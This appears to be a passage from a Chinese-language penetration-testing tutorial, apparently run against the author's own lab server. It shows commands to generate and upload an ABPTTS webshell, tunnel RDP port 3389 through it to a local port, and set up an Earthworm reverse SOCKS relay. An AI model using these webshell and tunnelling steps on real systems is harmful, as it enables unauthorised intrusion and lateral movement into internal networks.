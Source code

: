 ```
 python abpttsfactory.py ‐o webshell
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

生成之后当前路径下会有一个webshell目录，结构是这样的：

```
`webshell/``├── abptts.aspx``├── abptts.jsp``├── config.txt``├── GerbilFrame.war``└── war` `├── GerbilFrame.jsp` `├── META-INF` `│   └── MANIFEST.MF` `└── WEB-INF` `└── web.xml`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

然后我本地使用的是Jspstudy，然后吧生成的脚本abptts.jsp上传上去：

访问：http://192.168.2.13/abptts.jsp 会得到一串加密值：

```
7d75922bf227ec32477d3bb1f15b6047423a6d23dd449fe61b15dab5d5467f72f9010247.571e91
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

二、使用python进行连接

```
 `命令格式：` `python abpttsclient.py ‐c webshell/config.txt ‐u "http://目标服务器/abptts.jsp" -f 本地内网IP：本地端口/目标边界内网IP:需要转发的目标边界端口` ` 将目标边界的3389转发到本地的33389端口上：` `python abpttsclient.py -c webshell/config.txt -u "http://192.168.2.13/abptts.jsp" -f 127.0.0.1:33389/127.0.0.1:3389`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

然后本地连接自己的127.0.0.1:33389就相当于连接192.168.2.13的3389端口：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

远程桌面rdp连接成功！

  

* * *

  

**earthworm正向跨平台socks代理**

  

### 反向代理 

一、客户端攻击机吧外网的888端口转发到本地的1008端口：

```
./ew_for_linux64 -s rcsocks -l 1008 -e 888
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
